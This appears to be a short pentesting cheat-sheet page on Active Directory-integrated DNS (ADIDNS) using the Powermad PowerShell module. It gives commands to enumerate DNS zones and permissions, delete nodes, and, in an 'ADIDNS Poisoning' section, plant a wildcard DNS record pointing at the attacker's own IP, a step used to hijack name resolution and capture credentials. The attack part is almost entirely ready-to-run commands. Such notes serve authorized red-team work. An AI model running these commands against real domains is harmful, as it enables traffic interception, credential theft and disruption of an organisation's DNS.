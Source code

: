 ```yaml
---
title: "ADIDNS"
date: 2024-11-9
tags: ["Domain", "ADIDNS", "ADDS", "DNS", "PowerMad", "DNS Posioning", "Spoofing", "Windows", "Active Directory"]
---
```


### Basic

{{< tab set1 tab1 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Import Module

```console
. .\Powermad.ps1
```

#### 2. Enum

```console
# Get ADIDNS Zone
Get-ADIDNSZone
```

```console
# Get ADIDNS Permissions
Get-ADIDNSPermission
```

```console
# Remove a Node
Remove-ADIDNSNode -Node *
```

{{< /tabcontent >}}

### Abuse #1: ADIDNS Poisoning

{{< tab set2 tab1 >}}Windows{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 1. Import Module

```console
. .\Powermad.ps1
```

#### 2. Create a New Node

```console
$dnsRecord = New-DNSRecordArray -Type A -Data <LOCAL_IP>
```

```console
New-ADIDNSNode -Node * -Tombstone -DNSRecord $dnsRecord -Verbose
```

#### 3. Check

```console
Resolve-DnsName DoesNotExist
```

{{< /tabcontent >}}